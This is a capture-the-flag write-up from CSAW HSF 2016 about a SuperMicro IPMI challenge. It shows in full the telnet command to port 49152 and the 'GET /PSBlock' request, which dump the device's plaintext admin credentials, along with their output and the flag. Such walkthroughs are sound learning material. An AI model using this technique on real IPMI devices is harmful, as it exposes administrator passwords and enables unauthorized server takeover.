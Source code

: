 # CSAW HSF 2016 Prelims: IPMI Server Got Owned

**Category:** Network Forensics
**Points:** 300
**Solves:** 64
**Description:**

> We don’t need security on embedded devices anyway, right?
> 
> http://prod_atl_dc3_r49_u23.rogueterminal.com/
> 
> Challenge by Gus Naughton

## Write-up

When we navigate to ``23.226.239.10``, we are greeted with a SuperMicro IPMI server login page. Looking up SuperMicro IPMI vulnerabilities, we stumble upon this link: [http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password] (http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password). It details that the plaintext password to the admin interface on IPMI devices can be accessed by connecting to the server motherboard on port 49152 and running ``GET /PSBlock``.

```bash
$ telnet 23.226.239.10 49152
Trying 23.226.239.10...
Connected to 23.226.239.10.
Escape character is '^]'.
ATEN SMASH-CLP System Management Shell, version 1.02
Copyright (c) 2008-2009 by ATEN International CO., Ltd.
All Rights Reserved

GET /PSBlock
=%}?
0adminADMIN**ADMIN**;TTroot**flag{1PM1_1S_MUY_1N$3CUR3_LOPL}**???%?v?i?o???DDD@??
```

### Flag

``flag{1PM1_1S_MUY_1N$3CUR3_LOPL}``

## Other write-ups and resources

### Resources
* [http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password] (http://serverfault.com/questions/606877/how-to-check-if-my-supermicro-ipmi-is-compromised-with-plaintext-admin-password)

### Other write-ups
* (none yet)


